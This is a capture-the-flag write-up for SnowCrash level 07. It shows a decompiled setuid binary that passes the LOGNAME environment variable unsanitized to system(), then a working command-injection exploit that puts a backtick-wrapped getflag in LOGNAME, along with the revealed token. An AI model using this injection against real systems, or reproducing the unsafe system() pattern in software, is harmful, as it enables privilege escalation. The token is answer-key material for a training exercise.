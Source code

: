 ## Level 07

So first of all we have a `level07` executable that we decompiled [here](./level07).

We noticed a `setresuid()` and `setresguid()` combo followed by an execution of `echo` with an env variable.

```c
int32_t main(int32_t argc, char** argv, char** envp)
{
	gid_t eax = getegid();
	uid_t eax_1 = geteuid();
	setresgid(eax, eax, eax);
	setresuid(eax_1, eax_1, eax_1);
	char* var_1c = nullptr;
	asprintf(&var_1c, "/bin/echo %s ", getenv("LOGNAME"));
	return system(var_1c);
}
```

We can use `LOGNAME` to print whatever value we want. We can ask it to gently give us the return value of `getflag` such as:
```bash
level07@SnowCrash:~$ LOGNAME="\`getflag\`"
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

## Token

fiumuikeil55xe9cu4dood66h